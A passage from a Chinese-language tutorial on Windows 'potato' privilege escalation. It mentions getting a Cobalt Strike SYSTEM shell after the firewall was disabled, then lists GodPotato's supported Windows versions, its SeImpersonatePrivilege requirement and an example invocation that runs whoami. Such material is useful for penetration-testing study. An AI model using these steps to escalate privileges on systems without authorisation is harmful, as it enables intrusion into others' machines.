 

将防火墙关闭后再来提权，提权成功，CS上线system权限的shell

<img src="土豆提权原理/image-20240124180551603.png" alt="image-20240124180551603" style="zoom:67%;" />



# GodPotato

## 使用条件

适用于从 Windows Server 2012 到 Windows Server 2022，以及 Windows 8 到 Windows 11

需要执行用户拥有`ImpersonatePrivilege`权限



## 实操演示

选择适合目标系统的.NET版本号的GodPotato来执行提权操作

```
GodPotato-NET35.exe -cmd "cmd /c whoami"
```
